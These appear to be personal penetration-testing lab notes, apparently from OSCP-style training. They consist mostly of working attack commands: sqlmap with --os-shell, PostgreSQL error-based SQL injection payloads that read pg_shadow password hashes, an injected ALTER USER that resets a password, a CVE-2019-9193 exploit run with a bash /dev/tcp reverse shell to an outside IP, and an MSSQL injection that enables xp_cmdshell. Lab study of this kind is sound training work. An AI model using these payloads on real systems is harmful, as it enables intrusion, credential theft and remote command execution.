 -r use this file for the request
```
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```

when on a wordpress site, running `wpscan` with an api token is a good idea 

zip a file kali
```
zip x.zip pentestmonkey_reverse.php style.css
```

find all text files on a machine
```
find / -type f -name 'flag.txt' 2>/dev/null 1>hello
```

find all files with OS{ in them
```
find / -type f -name 'flag.txt' -exec grep -i "OS{" {} + 2>/dev/null 1>hello
```

10.3.2.6 Steps

1. found sqli on class form
2. used cast to get values from db via error message

```
weight=12&height=' and 1=cast((SELECT passwd FROM pg_shadow LIMIT 1 OFFSET 1) as int) and '1'='1' -- //&email=a%40a.com

pg_query(): Query failed: ERROR:  invalid input syntax for type integer: &quot;glovedb&quot; in <b>/var/www/html/class.php</b>

```
3. got password hash and tried cracking with md5 -- didn't work
```
weight=12&height=' and 1=cast((SELECT passwd FROM pg_shadow LIMIT 1 OFFSET 1) as int) and '1'='1' -- //&email=a%40a.com
```
4. decided to overwrite user's password instead
```
weight=12&height='; alter user rubben with password 'password' -- //&email=a%40a.com
```

5. used cve-2019-9193.py  (since we're on postgres) with new password. passed in reverse shell command

```
python3 cve-2019-9193.py -i 192.168.198.49 -d glovedb -U rubben -P password -c bash -c "bash -i >& /dev/tcp/192.168.45.202/4444 0>&1"
```


For windows IIS servers, we need to use gobuster with aspx extension and word list.  also disable errors

need to enable cmd_shell
`';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;
